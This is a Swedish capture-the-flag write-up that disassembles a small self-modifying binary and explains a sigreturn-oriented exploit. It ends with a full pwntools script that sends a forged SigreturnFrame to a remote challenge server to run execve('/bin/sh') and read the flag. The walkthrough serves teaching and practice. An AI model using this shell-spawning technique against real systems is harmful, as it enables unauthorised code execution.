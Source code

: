 Datan vid `0x400080` är strängen `/bin/sh` vilket säkert kommer vara användbar senare.

Redan vid den första instruktionen av hela programmet händer det något skumt. Vi subtraherar 0xf002 från 16-bitars nummret som utgör början av *instruktionen* som ligger vid 0x400094, d.v.s `mov esp, 0xef` som vi ser längre ned. Den kommer alltså att ändras till något annat innan vi ens kommer dit.
```py
>>> from pwn import *
>>> disasm(p16((u16(b'\xbc\xef')-0xf002)&0xffff)+b'\0\0\0')
'   0:   ba ff 00 00 00          mov    edx, 0xff'
```

De faktiska instruktionerna vi kör ser alltså ut som
```asm
mov rsi, rsp
mov edx, 0xff
syscall
```
Vilket syscall som körs indikeras av rax, vilket initialiseras till 0. Det motsvara `read`, vilket beror på följande register:

| rax | rdi | rsi | rdx |
|-|-|-|-|
| 0   | unsigned int fd  | char *buf | size_t count |

rdi är oinitialiserad och alltså 0 vilket motsvara file descriptorn för `stdin`. rsi är satt till stackpekaren så vi kommer att skriva till stacken, och edx (lägre halvan av rdx) är satt till 0xff så vi kommer att läsa 255 bytes.

Efter syscallen hoppar vi tillbaka till början och vi subtraherar återigen 0xf002 från den tredje instruktionen. Nu på den andra vändan ser det ut så här:
```
mov rsi, rsp
mov eax, 0xf
syscall
```

Nu blir det mer intressant: 0xf (15) är syscallet `sys_rt_sigreturn` vilket basically laddar en save-fil fast för processorn. Register, flaggor, instruktionspekaren, allt laddas från stacken, precis där vi har placerat vår tidigarenämnda 255-bytes-långa payload. Vi har full kontroll över vad CPU:n ska göra härnäst, förutsatt att vi kan skapa en korrekt save-fil.

Man skulle kunna läsa igenom linux kernelns source code eller på annat sätt själv bygga upp structen som behövs, eller så använder man `pwn.SigreturnFrame()`. Jag valde det senare alternativet. Eftersom binären är så snäll har den redan gett oss strängen `/bin/sh`, så vi behöver bara anropa `execve` med det så får vi shell. Det här är min exploit.

```python
import time
from pwn import *

context.arch = 'amd64'

frame = SigreturnFrame()
frame.rip = 0x400099 # syscall
frame.rax = 59 # sys_execve
frame.rdi = 0x0400080 # /bin/sh
frame.rsi = 0 
frame.rdx = 0

p = remote('35.217.22.30', 50000)
p.send(bytes(frame)[:255])
time.sleep(0.1)
p.sendline(b'cat flag.txt;exit')
print(p.recvall().decode().strip())
```
